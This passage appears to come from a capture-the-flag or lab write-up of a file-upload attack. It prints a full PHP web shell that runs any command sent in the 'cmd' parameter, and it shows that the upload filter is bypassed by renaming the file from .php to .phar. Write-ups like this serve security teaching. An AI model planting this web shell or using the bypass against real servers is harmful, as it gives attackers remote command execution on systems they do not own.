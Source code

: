 

We try  to upload the file `shell.php`:

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```



But we obtain the following error:

![image-20211015112124106](/assets/img/posts/thinjob/uploadNotAllowed.png)

So, we upload `shell.phar` with the same code as before and it is accepted:
